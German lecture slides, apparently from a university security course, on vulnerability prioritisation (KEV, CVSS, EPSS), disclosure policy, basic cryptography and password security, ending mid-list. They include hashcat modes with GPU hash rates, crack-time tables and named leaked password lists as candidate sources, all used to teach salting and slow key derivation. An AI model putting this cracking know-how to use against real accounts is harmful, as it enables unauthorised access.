Der `Known Exploited Vulnerabilities (KEV) Katalog der CISA <https://www.cisa.gov/known-exploited-vulnerabilities-catalog>`__ umfasst Produkte deren Schwachstellen ausgenutzt wurden oder aktiv ausgenutzt werden.

.. class:: incremental-list list-with-sublists

- Kriterien für die Aufnahme in den KEV Katalog:

  1. Eine CVE-Id liegt vor.
  2. Die Schwachstelle wird aktiv ausgenutzt (:eng:`Active Exploitation`) (ggf. reicht es jedoch wenn „nur“ ein *Honeypot* aktiv angegriffen wurde) - ein PoC reicht nicht aus.
  3. Eine Handlungsempfehlung liegt vor (z. B. Patch, Workaround oder vollständige Abschaltung).
- Firmen sollten die KEV *Schwachstellen priorisieren*, um die Wahrscheinlichkeit eines erfolgreichen Angriffs zu verringern.

.. supplemental::

    CISA = *Cybersecurity and Infrastructure Security Agency* (oder *America's Cyber Defense Agency*)

    Ausgewählte Amerikanische Behörden sind sogar verpflichtet innerhalb vorgegebener Zeiträume zu reagieren.

2023 CWE Top 10 KEV Weaknesses
-------------------------------

.. csv-table::
    :class: small highlight-line-on-hover incremental
    :header: Schwachstelle, CWE ID, # CVE Mappings in KEV, Avg. CVSS

    Use After Free, 416, 44, 8.54
    Heap-based Buffer Overflow, 122, 32, 8.79
    Out-of-bounds Write, 787, 34, 8.19
    Improper Input Validation, 20, 33, 8.27
    Improper Neutralization of Special Elements used in an OS Command ("*OS Command Injection*"), 78, 25, 9.36
    Deserialization of Untrusted Data, 502, 16, 9.06
    Server-Side Request Forgery (SSRF), 918, 16, 8.72
    Access of Resource Using Incompatible Type ("*Type Confusion*"), 843, 16, 8.61
    Improper Limitation of a Pathname to a Restricted Directory ("*Path Traversal*"), 22, 14, 8.09
    Missing Authentication for Critical Function, 306,  8, 8.86

.. class:: center-child-elements

Schwachstellen, die auf Fehler beim Speicherzugriff zurückzuführen sind, sind nicht (mehr) notwendig!
----------------------------------------------------------------------------------------------------------------------------

.. epigraph::

    **Google hails move to Rust for huge drop in memory vulnerabilities**

    [...] Memory access vulnerabilities often occur in programming languages that are not memory safe. In 2019, memory safety issues accounted for 76% of all Android vulnerabilities.

    [...] the transition to memory safe languages through the gradual use of memory safe code in new projects and developments over a five year period. The results showed that despite a gradual rise in code [still] being written in memory unsafe languages, memory safety vulnerabilities dropped significantly.

    [...] there has been a significant drop in the number of memory-related vulnerabilities, with memory safe vulnerabilities down to 24% in 2024 [...]

    -- 26. September 2024 - `Techradar.com <https://www.techradar.com/pro/google-hails-move-to-rust-for-huge-drop-in-memory-vulnerabilities>`__

Offenlegung von Sicherheitslücken nach `CISA <https://www.cisa.gov/coordinated-vulnerability-disclosure-process>`__ [#]_
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

:eng:`Coordinated Vulnerability Disclosure (CVD)`

.. class:: incremental-list

1. Sammlung von Schwachstellenmeldungen:

   - Eigene Schwachstellenanalysen
   - Überwachung öffentlicher Quellen
   - Direkte Meldungen von Herstellern, Forschern und Nutzern

2. Analyse der Schwachstellenmeldungen zusammen mit den Herstellern, um die Sicherheitsauswirkungen zu verstehen.
3. Entwicklung von Strategien zur Eindämmung der Schwachstellen; insbesondere Entwicklung von notwendigen Patches.
4. Anwendung der Strategien zur Eindämmung der Schwachstellen in Zusammenarbeit mit dem Hersteller und ggf. betroffenen Nutzern.
5. Veröffentlichung der Schwachstellenmeldung in Abstimmung mit der Quelle des Schwachstellenberichts und dem Hersteller.

.. supplemental::

    **CISA** (America's Cybersecurity and Infrastructure Security Agency/Cyber Defense Agency).

.. [#] Das BSI verfährt ähnlich; `tut sich aber sehr schwer <https://www.heise.de/news/Trojaner-Wie-die-Ampel-beim-Schwachstellenmanagement-die-Kurve-kriegen-will-9670572.html>`__.

Zeitlicher Rahmen für die Offenlegung von Sicherheitslücken
--------------------------------------------------------------

Der Zeitrahmen für die Offenlegung von Sicherheitslücken wird durch folgende Faktoren bestimmt:

.. class:: incremental-list

- Aktive Ausnutzung der Schwachstelle
- besonders kritische Schwachstellen
- Auswirkungen auf Standards
- bereits öffentlich bekannt (zum Beispiel durch einen „naïven“` Forscher)
- Auswirkungen auf die kritische Infrastruktur, öffentliche Gesundheit und Sicherheit
- die Verfügbarkeit von effektiven Eindämmungsmaßnahmen
- das Verhalten des Herstellers und die Möglichkeit der Entwicklung eines Patches
- Schätzung des Herstellers wie lange es dauert einen Patch zu entwickeln, zu testen und auszurollen.

Welche neuen Schwachstellen werden in absehbarer Zeit ausgenutzt?
---------------------------------------------------------------------

.. observation::

    Am 1. Oktober 2023 hat die NVD 139.473 CVEs veröffentlicht. In den folgenden 30 Tagen wurden 3.852 CVEs beobachtet, die ausgenutzt (:eng:`exploited`) wurden.

    Ca. 5-6% aller Schwachstellen werden „irgendwann“ ausgenutzt. [#]_

.. question::
    :class: incremental

    Wie stelle ich sicher, dass ich meine Bemühungen zum Beseitigen der Schwachstellen auf diejenigen konzentriere, die am wahrscheinlichsten zeitnahe ausgenutzt werden?

.. [#] Fortinet, `Threat Landscape Report Q2 2018 <https://www.fortinet.com/content/dam/fortinet/assets/threat-reports/q2-2018-threat-landscape-report.pdf>`__

Nutzung des CVSS als Grundlage für die Schätzung?
----------------------------------------------------------------------

Annahme: Schwachstellen mit einem CVSS Score :math:`\geq` 7 (d. h. mit einer Bewertung von Hoch oder kritisch) werden ausgenutzt.

.. class:: incremental-list

- 80.024 Schwachstellen haben einen CVSS Score :math:`\geq` 7

  **Ausgenutzt wurden: 3.166**
- 59.449 Schwachstellen haben eine CVSS :math:`<` 7

  **Ausgenutzt wurden: 686**

.. admonition:: Zusammenfassung
    :class: smaller incremental

    Die Strategie „Priorisierung von Schwachstellen mit einem bestimmten CVSS Score“ (hier :math:`\geq` 7) ist keine geeignete Strategie, da sie nicht alle relevanten  Schwachstellen erfasst (686 *False Negatives*) und - ganz insbesondere - zu viele Schwachstellen (76.858 *False Positives*) erfasst, die nicht ausgenutzt werden.

`Exploit Prediction Scoring System (EPSS) <https://www.first.org/epss/>`__
--------------------------------------------------------------------------

.. class:: incremental

- EPSS ist eine Methode zur *Bewertung der Wahrscheinlichkeit*, dass eine Schwachstelle in den nächsten 30 Tagen ausgenutzt wird.
- EPSS basiert auf der Analyse von Schwachstellen, die in den letzten 12 Monaten ausgenutzt wurden.
- EPSS nutzt KI basierend auf folgenden Informationen (Stand Jan. 2024):

  .. class:: incremental smaller

  - Hersteller
  - Alter der Schwachstelle (Tage seit der Veröffentlichung des CVEs)
  - die Beschreibung der Schwachstelle
  - betroffene CWEs
  - CVSS Bewertungen der Schwachstellen
  - Wird der CVE auf bekannten Listen diskutiert bzw. aufgelistet?
  - Gibt es öffentliche verfügbare Exploits?

Nutzung des EPSS für die Schätzung? [#]_
----------------------------------------------------------------------------

Annahme: Schwachstellen mit EPSS 10% und größer sind werden ausgenutzt werden.

.. class:: incremental

- 3.735 Schwachstellen haben ein Wahrscheinlichkeit von EPSS 10% und größer

  **Ausgenutzt wurden: 2.435**
- 135.738 Schwachstellen haben ein EPSS :math:`<` 10%

  **Ausgenutzt wurden: 1.417**

.. admonition:: Zusammenfassung
    :class: smaller incremental

    Die Strategie „Priorisierung von Schwachstellen mit einem EPSS von 10% und höher“ ist eine geeignete\ *re* Strategie, da sehr viele relevante Schwachstellen erfasst werden und - ganz insbesondere - die Anzahl der zu beachtenden Schwachstellen ganz massiv reduziert wird ohne die Gesamtqualität *zu stark* zu beeinflussen.

.. [#] `Enhancing Vulnerability Prioritization: Data-Driven Exploit Predictions with Community-Driven Insights <https://arxiv.org/abs/2302.14172>`__

.. class:: new-section transition-fade

Schwachstellenmanagement
---------------------------

`Vulnerabilities Equities Process (VEP) (USA) <https://trumpwhitehouse.archives.gov/sites/whitehouse.gov/files/images/External%20-%20Unclassified%20VEP%20Charter%20FINAL.PDF>`__ [#]_
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

.. epigraph::

    [...] Der *Vulnerability-Equity-Process (VEP)* wägt ab, ob Informationen über Schwachstellen an den Hersteller/Lieferanten weitergegeben werden sollen, in der Erwartung, dass sie gepatcht werden, oder ob die Kenntnis der Schwachstelle vorübergehend auf die US-Regierung und möglicherweise andere Partner beschränkt werden soll, damit sie für Zwecke der nationalen Sicherheit und der Strafverfolgung, wie z. B. nachrichtendienstliche Erfassung, militärische Operationen und/oder Spionageabwehr, genutzt werden können. [...]

    -- Übersetzung: DeepL

.. [#] Die rechtlichen Rahmenbedingungen bzgl. eines effektiven Schwachstellenmanagement sind in Deutschland gerade in der Diskussion. (Stand Jul. 2024); Schwachstellen, die direkt an das BSI gemeldet werden, unterliegen dem vorher diskutierten CVD.

.. supplemental::

    Insbesondere durch die föderale Struktur in Deutschland kann es ggf. dazu kommen, dass bezüglich der Handhabung von Schwachstellen unterschiedliche rechtliche Regelungen gelten werden - je nachdem ob die Behörde eine Bundes- oder Landesbehörde ist.

`Vulnerabilities Equities Process (VEP) (USA) <https://trumpwhitehouse.archives.gov/sites/whitehouse.gov/files/images/External%20-%20Unclassified%20VEP%20Charter%20FINAL.PDF>`__
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

.. epigraph::

    [...] Die Entscheidung der US-Regierung, ob eine Schwachstelle veröffentlicht oder eingeschränkt werden soll, ist nur ein Element des Prozesses zur Bewertung der Schwachstellen und ist nicht immer eine binäre Entscheidung. Andere Optionen, die in Betracht gezogen werden können, sind die Verbreitung von Informationen zur Schadensbegrenzung an bestimmte Stellen, ohne die jeweilige Schwachstelle offenzulegen, die Einschränkung der Nutzung der Schwachstelle durch die US-Regierung in irgendeiner Weise, die Information von Regierungsstellen der USA und verbündeter Staaten über die Schwachstelle [...].

    -- Übersetzung: DeepL

`Vulnerabilities Equities Process (VEP) (USA) <https://trumpwhitehouse.archives.gov/sites/whitehouse.gov/files/images/External%20-%20Unclassified%20VEP%20Charter%20FINAL.PDF>`__
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

.. epigraph::

    [...] Alle diese Entscheidungen müssen auf der Grundlage des Verständnisses der Risiken einer Verbreitung, des potenziellen Nutzens von Schwachstellen durch die Regierung sowie der Risiken und Vorteile aller dazwischen liegenden Optionen getroffen werden. [...]

    -- Übersetzung: DeepL

Schwachstellenmanagement in Deutschland - Quo Vadis?
-------------------------------------------------------------

.. epigraph::

    .. container:: obsolete

        [...] Die Ausnutzung von Schwachstellen von IT-Systemen steht in einem hochproblematischen Spannungsverhältnis zur IT-Sicherheit und den Bürgerrechten. Der Staat wird daher keine Sicherheitslücken ankaufen oder offenhalten, sondern sich in einem Schwachstellenmanagement unter Federführung eines unabhängigeren Bundesamtes für Sicherheit in der Informationstechnik immer um die schnellstmögliche Schließung bemühen.[...]

    -- KOALITIONSVERTRAG 2021—2025 (SPD, BÜNDNIS 90/DIE GRÜNEN, FDP)

.. class:: new-subsection transition-fade

Verschlüsselung - eine allererste Einführung
------------------------------------------------------------

Definitionen
-------------

:Klartext:
    :eng:`Plaintext`

    Die Originalnachricht, die verschlüsselt werden soll.

:Geheimtext oder Chiffretext oder `Kryptogramm`:peripheral::
    :eng:`Ciphertext`

    Die kodierte/verschlüsselte Nachricht.

:Verschlüsselung:
    :eng:`Encryption`

    Der Prozess der Umwandlung von Klartext in Geheimtext.

:Entschlüsselung:
    :eng:`Decryption`

    Der Prozess der Wiederherstellung des Klartextes aus dem Geheimtext.

Sicherheit von Verschlüsselungsschemata
------------------------------------------

.. container::

   *Bedingungslos Sicher* (:eng:`Unconditionally Secure`)

   - Unabhängig davon wie viel Zeit ein Gegner hat, ist es ihm unmöglich, den Geheimtext zu entschlüsseln, weil die erforderlichen Informationen nicht vorhanden sind.

.. container:: incremental

    *Rechnerisch Sicher* (:eng:`Computationally Secure`)

    - Die Kosten für das Brechen der Chiffre übersteigen den Wert der verschlüsselten Informationen.
    - Die zum Knacken der Chiffre benötigte Zeit übersteigt die Lebensdauer der Informationen.

.. question::
    :class: incremental

    Wie lange könnte der Nutzen einer bestimmten Information andauern?

Eines der ersten Verschlüsselungsverfahren: Caesar Cipher
----------------------------------------------------------

- Einfachste und früheste bekannte Verwendung einer Substitutions-Chiffre; verwendet von Julius Cäsar.
- Dabei wird jeder Buchstabe des Alphabets durch einen Buchstaben ersetzt, der drei Stellen weiter hinten im Alphabet steht.
- Am Ende des Alphabets wird wieder am Anfang begonnen. Somit folgt auf den Buchstabe Z der Buchstabe A.

    ::

        unverschlüsselt:    meet me after the toga party

    .. class:: incremental

    ::

        verschlüsselt:      PHHW PH DIWHU WKH WRJD SDUWB

.. supplemental::

    Das Verfahren ist aus mehrfacher Sicht komplett unsicher und verletzt allg. Sicherheitsprinzipien. Es ist jedoch ein einfaches Beispiel für eine Substitutions-Chiffre.

Brute-Force Angriff
--------------------

.. class:: incremental

- Es werden alle möglichen Schlüssel ausprobiert, bis eine verständliche Übersetzung des Chiffriertextes in Klartext erreicht wird.

- Im Durchschnitt muss die Hälfte aller möglichen Schlüssel ausprobiert werden, um Erfolg zu haben.

- Zur Durchführung des Brute-Force-Ansatzes ist ein gewisses Maß an Wissen über den zu erwartenden Klartext erforderlich. Es werden Mittel zur automatischen Unterscheidung von Klartext und „Müll“ benötigt.

  .. admonition:: Frage

      Was bedeuted somit *bis eine verständliche Übersetzung des Chiffriertextes in Klartext erreicht wird*? Wenn der Klartext zum Beispiel ein Bild, ein Video oder ein Computerprogramm ist?

Hashfunktionen
-------------------------------

.. class:: incremental-list

- Eine Hashfunktion :math:`H` akzeptiert eine beliebig lange Nachricht :math:`M` als Eingabe und gibt einen Wert fixer Größe zurück: :math:`h = H(M)`.
- Eine Änderung eines beliebigen Bits in :math:`M` sollte mit hoher Wahrscheinlichkeit zu einer Änderung des Hashes :math:`h` führen.
- Kryptographische Hashfunktionen werden für das Signieren von Nachrichten, die Erstellung von digitalen Signaturen, die Überprüfung von Nachrichtenintegrität und bei der Speicherung von Passwörtern verwendet.

.. supplemental::

    **Kollisionen bei Hashes**

    Wenn ein Passwort „nur“ als Hash gespeichert wird, dann gibt es zwangsläufig Kollisionen und es kann theoretisch passieren, dass ein Angreifer (zufällig) ein völlig anderes Passwort findet, das bei der Überprüfung des Passworts akzeptiert wird. Die Konstruktion kryptografischer Hashfunktionen stellt jedoch sicher, dass dies in der Praxis nicht auftritt. Sollte jedoch eine „normale Hashfunktion“ genommen werden, dann ist dieses Szenario durchaus realistisch.

SHA256 Hashfunktion - Beispiele
--------------------------------

.. class:: incremental-list dd-margin-left-2em

:ok: 2689367b205c16ce32ed4200942b8b8b1e262dfc70d9bc9fbc77c49699a4f1df

:password: 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
:Password: e7cf3ef4f17c3999a94f2c6f612e8a888e5b1026878e4e19398b23bd38ec221a
:12345678: ef797c8118f02dfb649607dd5d3f8c7623048c9c063d532cc95c5ed7a898a64f
:12345679: b759803bc6037a05e6564b6447a755b7f3862ba4d0d746785dbe133dcb6c8f4d
:"this is a very, very long password that would be absolutely safe for all purposes until the END of tIME!": b915b962df3b0d49b6c7995164a0a1756885d749af214e561aa8125a9186b26d

Sicherheit - Verschlüsselung und Signaturen
---------------------------------------------

Es geht im Wesentlichen um das Ver- und Entschlüsseln von Daten (:math:`X`) mit Hilfe von Schlüsseln.

.. deck::

    .. card::

        :math:`E(K,X)` bedeutet, dass wir die Nachricht X mit dem Schlüssel :math:`K`  verschlüsseln (:eng:`encryption`).

        :math:`D(K,X)` bezeichnet die Umkehrfunktion, die die Daten wieder entschlüsselt (:eng:`decryption`).

    .. card::

        .. rubric:: Symmetrische Verschlüsselung

        Der Schlüssel zur Verschlüsselung ist identisch mit dem Schlüssel zur Entschlüsselung (:eng:`decryption` (:math:`D`)).

        .. math::
            X = D(K,E(K,X))

    .. card::

        .. rubric:: Asymmetrische Verschlüsselung

        Wir unterscheiden zwischen privaten (:math:`PR`) und öffentlichen Schlüsseln (:math:`PU`) (:math:`PU` :math:`\neq` :math:`PR`). Ein privater und ein öffentlicher Schlüssel bilden immer ein Paar. Der private Schlüssel ist immer geheim zu halten.

        .. deck:: incremental

            .. card::

                **Verschlüsselung von Nachrichten**

                Alice sendet eine Nachricht an Bob mit Hilfe des öffentlichen Schlüssels von Bob.

                .. math::
                    Y = E(PU_{Bob},X) \\
                    X = D(PR_{Bob},Y)

            .. card::

                **Signierung von Nachrichten**

                Alice „signiert“ (:math:`S`) eine Nachricht mit ihrem privaten Schlüssel.

                .. math::
                    Y = E(PR_{Alice},X) \\
                    X = D(PU_{Alice},Y)

            .. card::

                **Signierung von Nachrichten mit sicheren Hashfunktionen**

                Alice signiert eine Nachricht :math:`X` mit ihrem privaten Schlüssel.

                .. math::
                    Alice: [E(PR_{Alice},H=Digest(X)),X]

                Bob prüft die Nachricht :math:`X` auf Authentizität:

                .. math::
                    Bob: D(PU_{Alice},H) \stackrel{?}{=} Digest(X)

.. class:: new-section transition-fade

Passwortsicherheit
---------------------------

Verwendung von Passworten
----------------------------------------------

.. observation::

    Klassische Passwörter werden (noch immer) in zahlreichen Bereichen verwendet.

.. container:: incremental

    .. rubric:: Beispiele

    - Smartphones
    - Cryptosticks
    - Logins für Computer und Serversysteme
    - verschlüsselte Dateien und Datenträger
    - "als Backup"

.. supplemental::

    **Hintergrund**

    Obwohl an vielen Stellen versucht wird Passwörter aus vielen Gründen zurück zu drängen, so ist die Verwendung noch allgegenwärtig und in machen Bereichen ist auch nicht unmittelbar eine Ablösung zu erkennen.

    Biometrie ist zum Beispiel in machen Bereichen kein Ersatz für Passwörter und wird - wenn überhaupt - nur ergänzend genommen. So ist es zum Beispiel im deutschen Recht erlaubt/möglich einem Beschuldigten sein Smartphone bei Bedarf vor das Gesicht zu halten, um es zu entsperren (Stand 2023). Je nach Qualität des Fingerabdrucksensors können ggf. auch genommene Fingerabdrücke verwendet werden. Möchte der Beschuldigte jedoch das Passwort nicht freiwillig nennen, dann besteht keine direkte weitere Handhabe.

Passwortbasierte Angriffe auf Unternehmen
----------------------------------------------

.. epigraph::

    Microsoft said hackers working for the Russian government breached its corporate networks recently and stole email from executives and some employees to find out what the company knew about them. The tech company said the breach was not due to any flaw in its software, but rather began with a “password spraying.” The technique worked on what Microsoft said was an old test account, and the hackers then used the account’s privileges to get access to multiple streams of email.

    -- 19. Januar 2024: The Washington Post; Joseph Menn

Ist Passwortwiederherstellung nicht „trivial“?
----------------------------------------------------------------

.. epigraph::

    **59 Prozent aller Passwörter in unter 60 Minuten knackbar**

    *Forscher haben per Brute-Force-Methode mit einer Nvidia Geforce RTX 4090 Millionen von Passwörtern aus dem Darknet geknackt*.

    [...] Sicherheitsforscher von Kaspersky haben untersucht, wie schnell sich gängige Passwörter mit einer modernen GPU vom Typ Nvidia Geforce RTX 4090 knacken lassen. Durchgeführt wurde die Untersuchung anhand einer Datenbank mit 193 Millionen echten Nutzerpasswörtern, die die Forscher aus dem Darknet bezogen. Sämtliche Passwörter lagen dabei in Form von gesalzenen MD5-Hashes vor. [...]

    -- 21. Juni 2024: `golem.de <https://www.golem.de/news/forscher-machen-den-test-59-prozent-aller-passwoerter-in-unter-60-minuten-knackbar-2406-186329.html>`__

.. class:: no-title

Ist Passwortwiederherstellung nicht „trivial“?
----------------------------------------------------------

**An AI cracked your password.** Time It Takes Using AI to Crack Your Password.\ [#]_

.. csv-table::
    :class: s-font-size-80 highlight-line-on-hover incremental
    :header: # OF CHARACTER, Numbers Only, Lowercase Letters, Lower- & Uppercase Letters, "Numbers, Upper- & Lowercase Letters", "Numbers, Upper- & Lowercase Letters, Symbols"

    4, Instantly, Instantly, Instantly, Instantly, Instantly
    5, Instantly, Instantly, Instantly, Instantly, Instantly
    6, Instantly, Instantly, Instantly, Instantly, 4 Seconds
    7, Instantly, Instantly, 22 Seconds, 42 Seconds, 6 Minutes
    8, Instantly, 3 Seconds, 19 Minutes, 48 Minutes, 7 Hours
    9, Instantly, 1 Minutes, 11 Hours, 2 Days, 2 Weeks
    10, Instantly, 1 Hours, 4 Weeks, 6 Months, 5 Years
    11, Instantly, 23 Hours, 4 Years, 38 Years, 356 Years
    12, 25 Seconds, 3 Weeks, 289 Years, 2K Years, 30K Years
    13, 3 Minutes, 11 Months, 16K Years, 91K Years, 2M Years
    14, 36 Minutes, 49 Years, 827K Years, 9M Years, 187M Years
    15, 5 Hours, 890 Years, 47M Years, 613M Years, 14Bn Years
    16, 2 Days, 23K Years, 2Bn Years, 26Bn Years, 1Tn Years
    17, 3 Weeks, 812K Years, 539.72M Years, 2Tn Years, 95Tn Years
    18, 10 Months, 22M Years, 7.23Bn Years, 96Tn Years, 6Qn Years

.. [#] `Home Security Heroes <https://www.securityhero.io/ai-password-cracking/>`__

.. supplemental::

    Aus dem "Paper":

    .. epigraph::

        We used [...] PassGAN to run through a list of 15,680,000 passwords. [...]

Sammlungen von Passwörtern
-------------------------------------------------------------------

.. epigraph::

    **Check Your Accounts: 10 Billion Passwords Exposed in Largest Leak Ever**

    *The 'RockYou2024' database includes almost 10 billion passwords pulled from 'a mix of old and new data breaches.' Here's how to check if yours are at risk.*

    [...]Researchers at Cybernews have uncovered a massive trove of nearly 10 billion passwords on a popular hacking forum in what they're calling "largest password compilation" ever.

    The file, titled ``rockyou2024.txt``, was posted on July 4 by someone going by the name ObamaCare and contains a mind-boggling 9,948,575,739 unique plaintext passwords. The user only joined the forum in late May, but they've posted data from other breaches, too. [...]

    -- 6. Juli 2024: `PCMag <https://uk.pcmag.com/security/153138/check-your-accounts-10-billion-passwords-exposed-in-largest-leak-ever>`__

Raum der Passwortkandidaten
--------------------------------

:vierstellige PIN:

    .. container:: incremental

        :math:`10.000` Kombinationen

:Passwort mit 8 Zeichen und 70 Zeichen im Zeichensatz (a-z, A-Z, 0-9 und ausgewählte Sonderzeichen):

    .. container:: incremental

        :math:`70^8 = 576.480.100.000.000 \approx 5,7 \times 10^{14}` Kombinationen

:Passphrase mit 6 Wörtern aus einem Wörterbuch mit 2.000 Wörtern:

    .. container:: incremental

        :math:`2.000^6 = 6,4 \times 10 ^{19}` Kombinationen

:Passphrase mit 4 Wörtern aus einem Wörterbuch mit 100.000 Wörtern:

    .. container:: incremental

        :math:`100.000^4 = 1 \times 10^{20}` Kombinationen

:Passwort mit 16 Zeichen und 84 Zeichen im Zeichensatz (a-z, A-Z, 0-9 und die meisten Sonderzeichen):

    .. container:: incremental

        :math:`84^{16} = 6,14 \times 10^{30}` Kombinationen

.. supplemental::

    Eine vierstellige PIN kann niemals als sicher angesehen werden. Selbst wenn ein Bruteforce nur auf 4 oder 5 Versuche pro Stunde kommt, so ist es dennoch in wenigen Monaten möglich die PIN zu ermitteln.

Quellen für Passwortkandidaten
--------------------------------

.. class:: incremental

- Wörterbücher
- Verzeichnisse (z. B. Postleitzahlen, Städte, Straßennamen)
- Leaks

  :peripheral:`(Sammlungen von realen Passwörtern, die meist von Hackern veröffentlicht wurden.)`

  - Rockyou
  - LinkedIn
  - Sony
  - etc.

Qualität von Passworten
--------------------------------------------------------------------

Wie ist die Qualität der folgenden Passwörter zu bewerten in Hinblick darauf, wie aufwändig es ist das Passwort ggf. wiederherzustellen:

.. class:: incremental smaller

1. Donaudampfschifffahrt
2. Passwort
3. ME01703138541
4. 2wsx3edc4rfv
5. Haus Maus
6. iluvu
7. Emily18
8. MuenchenHamburg2023!!!!
9. hjA223dn4fw"üäKßß k`≤-~ajsdk
10. Baum Lampe Haus Steak Eis Berg
11. password123

.. class:: new-section transition-fade

Kryptografische Hashfunktionen und Passwörter
----------------------------------------------

Hashraten in MH/s auf aktueller Hardware
------------------------------------------------------------

.. csv-table::
    :class: incremental-table-rows no-table-borders
    :header: **Hashcat Mode (Hashcat 6.2.6)**, **Hash**, **RTX 1080Ti (250 W)**, "**RTX 2080TI (260 W)**", "**RTX 3090 (350 W)**", "**RTX 4090 (450 W)**"

    25700, Murmur, , , , "643700.0 (643 GH/s)"
    23, Skype, 21330.1 , 27843.1 , 37300.7 , 84654.8
    1400, SHA2-256, 4459.7 , 7154.8 , 9713.2 , 21975.5
    10500, PDF1.4-1.6, 24.9 , 29.8 , 76.8 ,  122.0
    1800, SHA 512 Unix (5000 Iterations), 0.2 , 0.3  , 0.5 , 1.2
    13723, Veracrypt SHA2- 512 + XTX 1536Bit, 0.0004 , 0.0006  , 0.0009 , "0.002
    (2000 H/s)"

.. supplemental:: smaller

    **Quellen:**

    - 4090: `https://gist.github.com/Chick3nman/e4fcee00cb6d82874dace72106d73fef`
    - 3090: `https://gist.github.com/Chick3nman/e4fcee00cb6d82874dace72106d73fef`
    - 1080Ti: `https://www.onlinehashcrack.com/tools-benchmark-hashcat-nvidia-gtx-1080-ti.php`
    - 2080Ti: `https://gist.github.com/binary1985/c8153c8ec44595fdabbf03157562763e`

Brute-Force Angriff auf lange Passworte
------------------------------------------------------------------------------

Kryptografische Hashfunktionen für Passworte
----------------------------------------------------------------------

.. warning::
    :class: incremental

    Bekannte kryptografische Hash-Funktionen wie :obsolete:`MD4`, :obsolete:`MD5`, SHA-256, SHA-512 oder auch RIPE-MD sind für das Hashen von Passwörtern nicht geeignet.

.. class:: incremental list-with-explanations

- Zur Schlüsselableitung bzw. zum Hashen von Passwörtern wurden spezialisierte Funktionen entwickelt. Zum Beispiel: PBKDF2, Scrypt, Bcrypt und die Argon2 Familie. Diese wiederstehen gängigen Angriffen.

  .. container:: far-smaller

    PBKDF2 verwendet zum Beispiel beim Hashing von Passwörtern klassische Basisalgorithmen (z. B. SHA-256) und wiederholt diese mehrfach (ggf. viele hunderttausend Male), um die Laufzeit zu verlängern und es für Angreifer schwieriger zu machen.

- Diese Algorithmen sind parametrisierbar, um sie an verschiedene Zwecke anpassen zu können.  Je nach Parametrisierung sind diese so rechenintensiv, dass sie z. B. nicht für Webanwendungen mit vielen Nutzern geeignet sind.

.. supplemental::

    Parametrisierungen, die die Laufzeit und den Speicherbedarf so stark erhöhen, dass eine Verwendung in Webanwendungen nicht mehr sinnvoll ist, können z. B. ideal sein zum Schutz von Dateien, Containern oder lokaler Festplatten.

Vom Salzen (:eng:`Salt`) ...
-----------------------------

.. story::

    **Beobachtung/Problem**

    Werden Passwörter direkt mit Hilfe einer kryptografischen Hashfunktion gehasht, dann haben zwei Nutzer, die das gleiche Passwort verwenden, den gleichen Hash.

    .. csv-table::
        :class: tiny highlight-line-on-hover
        :header: User, Hash

        Alice, "sha256_crypt.hash('\ **DHBWMannheim**\ ',salt='',rounds=1000) =
        ``$5$rounds=1000$$lb/CwYgN/xR9dqYuYxYVtWkxMEh.VK.QOC9IKmy9DP/``"
        Bob, "sha256_crypt.hash('\ **DHBWMannheim**\ ',salt='',rounds=1000) =
        ``$5$rounds=1000$$lb/CwYgN/xR9dqYuYxYVtWkxMEh.VK.QOC9IKmy9DP/``"

    .. container:: incremental

        **Lösung**

        Passwörter sollten immer mit einem einzigartigen und zufälligen „Salt“ gespeichert werden, um Angriffe mittels Regenbogentabellen zu verhindern.

        .. csv-table::
            :class: highlight-line-on-hover
            :header: User, Hash

            Alice, "sha256_crypt.hash('\ **DHBWMannheim**\ ',\ :red:`salt='0123456'`\ ,rounds=1000) =
            ``$5$rounds=1000$0123456$66x8MB.qev25coq9OVrD1lr1ZGJJelAzOVlCDZykrY0``"

            Bob, "sha256_crypt.hash('\ **DHBWMannheim**\ ',\ :red:`salt='1234567'`\ ,rounds=1000) =
            ``$5$rounds=1000$1234567$LxD/hg29N9KYpNdFMW69Kk65BLkVLlzlSEJvqhCmFU9``"

.. supplemental::

    .. rubric:: Rainbow Tables

    Eine *Rainbow Table* (:ger:`Regenbogentabelle` - Verwendung jedoch nicht gängig) bezeichnet eine vorberechnete Tabelle, die konzeptionell zum einem Hash ein jeweilig dazugehörendes  Passwort speichert und einen effizienten Lookup ermöglicht. Dies kann ggf. die Angriffsgeschwindigkeit sehr signifikant beschleunigen, auch wenn die Tabellen sehr groß sind und ggf. in die Terabytes gehen.

    Aufgrund der allgemeinen Verwendung von Salts sind Angriffe mit Hilfe von Regenbogentabellen heute (fast nur noch) von historischer Bedeutung.

Verwendung sicherer Hash- bzw. Schlüsselableitungsfunktionen für Passworte
----------------------------------------------------------------------------

.. note::
    :class: width-40

    Häufig werden die „Hashwerte“ von Passwörtern in Datenbanken oder Dateien  als Base64 kodierter String gespeichert.

:Argon2: z. B. verwendete von LUKS2
:bcrypt: basierend auf Blowfish; z. B. verwendet in OpenBSD
:scrypt: z. B. (ergänzend) verwendet für das Hashing von Passwörtern auf Smartphones
:yescrypt: z. B. moderne Linux Distributionen
:PBKDF2-HMAC-SHA256: Ethereum Wallets

Angriff auf LUKS2 mit Argon2
--------------------------------------------------

.. epigraph::

    […] The choice of Argon2 as a KDF makes GPU acceleration impossible. As a result, you’ll be restricted to CPU-only attacks, which may be very slow or extremely slow depending on your CPU. To give an idea, you can try 2 (that’s right, two) passwords per second on a single Intel(R) Core(TM) i7-9700K CPU @ 3.60GHz. Modern CPUs will deliver a slightly better performance, but don’t expect a miracle: LUKS2 default KDF is deliberately made to resist attacks. […]

    -- Elcomsoft `LUKS2 with Argon2 <https://blog.elcomsoft.com/2022/08/probing-linux-disk-encryption-luks2-argon-2-and-gpu-acceleration>`__

Effizienz eines Brute-Force Angriffs auf LUKS2
-------------------------------------------------------------------

.. class:: new-section transition-scale

Passworte Verstehen
-------------------

Aufbau von Passworten
-----------------------

Von Menschen vergebene Passwörter basieren häufig auf Kombinationen von Wörtern aus den folgenden Kategorien:

.. class:: incremental-list

- Pins: ``1111``, ``1234``, ``123456``, …
- Tastaturwanderungen (:eng:`keyboard walks`): ``asdfg``, ``q2w3e4r5t``, …
- Patterns: ``aaaaa``, ``ababab``, ``abcabcabc``, …
- Reguläre Wörter aus Wörterbüchern: Duden, Webster, …
- Kontextinformationen:

